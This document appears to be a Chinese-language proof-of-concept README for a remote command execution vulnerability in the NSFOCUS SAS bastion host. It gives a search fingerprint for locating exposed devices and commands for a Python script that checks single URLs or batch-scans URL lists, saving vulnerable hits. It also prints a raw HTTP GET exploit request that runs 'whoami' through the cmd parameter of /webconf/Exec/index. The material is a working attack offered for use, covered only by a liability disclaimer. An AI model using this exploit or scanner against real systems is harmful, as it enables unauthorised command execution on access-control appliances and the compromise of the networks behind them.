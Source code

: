 # 绿盟 SAS堡垒机 Exec 远程命令执行

绿盟 SAS堡垒机 Exec/index存在远程命令执行漏洞

## 指纹

body="'/needUsbkey.php?username='"

## 工具利用

python3 SAS-Exec_rce.py -u http://127.0.0.1:1111 单个url测试

python3 SAS-Exec_rce.py -f url.txt 批量检测 

扫描会自动保存存在漏洞的url到vuln.txt
![poc](./poc.jpg)

## exp

```
GET /webconf/Exec/index?cmd=whoami HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.2785.42 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```
![poc](./exp.jpg)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
